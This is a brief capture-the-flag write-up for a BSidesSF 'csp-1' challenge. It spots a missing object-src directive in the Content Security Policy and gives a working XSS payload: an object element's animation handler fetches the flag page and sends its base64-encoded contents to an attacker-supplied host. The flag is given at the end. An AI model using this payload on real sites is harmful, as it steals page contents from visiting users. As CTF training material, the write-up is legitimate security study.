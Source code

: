 **Challenge**: https://csp-1-581db2b1.challenges.bsidessf.net/

CSP Evaluator: https://csp-evaluator.withgoogle.com/
- Interesting: `object-src [missing]`

Object payload:
```html
<style>@keyframes x{}</style><object style="animation-name:x" onanimationend="function reqListener () {window.location='<Your Host>/?a='+btoa(this.responseText);};oReq = new XMLHttpRequest();oReq.onload = reqListener;oReq.open('get', 'csp-one-flag', true);oReq.send();"></object>
```

Edit the host in `window.location` and send it in the challenge page. The request from Admin contains the flag in base64.

Reference: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

**Flag**: CTF{Can_Send_Payloads}
